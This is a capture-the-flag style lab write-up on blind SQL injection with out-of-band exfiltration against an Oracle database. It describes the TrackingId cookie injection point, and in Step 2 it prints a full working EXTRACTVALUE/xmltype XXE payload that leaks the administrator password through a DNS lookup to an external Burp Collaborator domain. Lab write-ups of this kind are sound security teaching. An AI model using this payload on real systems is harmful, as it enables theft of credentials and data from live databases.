





Lab 17 — Blind SQL injection with out-of-band data exfiltration
🔴 High📅 2026-05-19
📋 Finding Summary
Field
Value
Type
Web App
Severity
🔴 High
CVE / CWE
CWE-89
Date
2026-05-19
🔍 Description
Blind SQL injection with out-of-band data exfiltration extends the out-of-band interaction technique to actively extract sensitive data from the database. The injected query is executed asynchronously with no effect on the HTTP response, so neither error-based nor timing-based techniques are viable. Instead, the attacker embeds a SQL subquery inside the DNS lookup URL — causing the database to perform a DNS request to an attacker-controlled domain where the subdomain encodes the query result. By observing the DNS interaction in Burp Collaborator, the attacker can read the exfiltrated data directly from the subdomain label. In this lab, the TrackingId cookie value is embedded unsanitized into a SQL query executed by an Oracle database. An EXTRACTVALUE + xmltype XXE payload is used to construct a DNS lookup URL containing the administrator password from the users table, leaking it to Burp Collaborator.
🎯 End Goals
Confirm the TrackingId cookie is a blind SQL injection point with no visible errors or timing side-channels
Inject an Oracle out-of-band payload that embeds a SQL subquery inside the DNS lookup URL
Observe the DNS interaction in Burp Collaborator and read the exfiltrated administrator password from the subdomain
Log in as administrator to solve the lab
🪜 Steps to Reproduce
Browse the lab and observe the server assigns a TrackingId cookie on initial page load; confirm in Burp HTTP History that the browser sends it on subsequent requests
Open Burp Collaborator and copy a unique Collaborator payload domain
Construct an Oracle out-of-band data exfiltration payload using EXTRACTVALUE and xmltype with an XXE technique — embedding a SELECT password FROM users WHERE username='administrator' subquery inside the DNS lookup URL so the password is prepended to the Collaborator domain as a subdomain label
Send the payload in the TrackingId cookie via Burp Repeater
Poll Burp Collaborator and observe the incoming DNS interaction — the subdomain label contains the exfiltrated password
Log in at /login with administrator and the extracted password to solve the lab
🧠 Analysis
Step 1 — Observe the lab and identify the TrackingId cookie
Browsing the lab and navigating to /login confirmed in Burp HTTP History that the server assigns a TrackingId cookie (e.g. jFCOX4r6qnVqbDrE) on initial page load and the browser sends it on every subsequent request. The query is executed asynchronously with no effect on the HTTP response — ruling out error-based, UNION-based, and timing-based approaches. An out-of-band channel is required.


Step 2 — Inject the out-of-band data exfiltration payload
A Burp Collaborator domain was generated and used to construct an Oracle out-of-band data exfiltration payload. The technique uses EXTRACTVALUE with an xmltype call that defines an external XML entity whose URL is dynamically constructed by concatenating the result of a SQL subquery — causing the Oracle database to perform a DNS lookup where the subdomain encodes the exfiltrated value:
TrackingId=jFCOX4r6qnVqbDrE'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.9cmpk03atp2wxwy1atg7ikqo6fc60wol.oastify.com/">%remote;]>'),'/l') FROM dual)-- -
Sending this URL-encoded payload in Burp Repeater returned HTTP 200 OK — confirming the payload executed successfully.

Step 3 — Confirm DNS interaction and extract the password from Collaborator
Polling Burp Collaborator showed 4 DNS interactions and 1 HTTP interaction received for the domain 9cmpk03atp2wxwy1atg7ikqo6fc60wol.oastify.com. The DNS lookup subdomain label contained the exfiltrated administrator password: the full domain queried was uy4sqs2f8l38a70g1rf.9cmpk03atp2wxwy1atg7ikqo6fc60wol.oastify.com, revealing the password as uy4sqs2f8l38a70g1rf.

Step 4 — Log in as administrator and solve the lab
Logging in at /login with username administrator and the extracted password uy4sqs2f8l38a70g1rf returned the “My Account” page showing “Your username is: administrator” and the “Congratulations, you solved the lab!” banner.

🎯 Impact
An attacker can exfiltrate arbitrary data from the database with no in-band indicators whatsoever — no errors, no response body changes, and no timing differences. The entire attack channel is out-of-band via DNS. In this case, the administrator’s plaintext password was exfiltrated in a single request by embedding it as a DNS subdomain label. On a production system this technique could be used to exfiltrate any data accessible to the database user — credentials, session tokens, API keys, or sensitive records — with nothing visible in the application’s HTTP responses.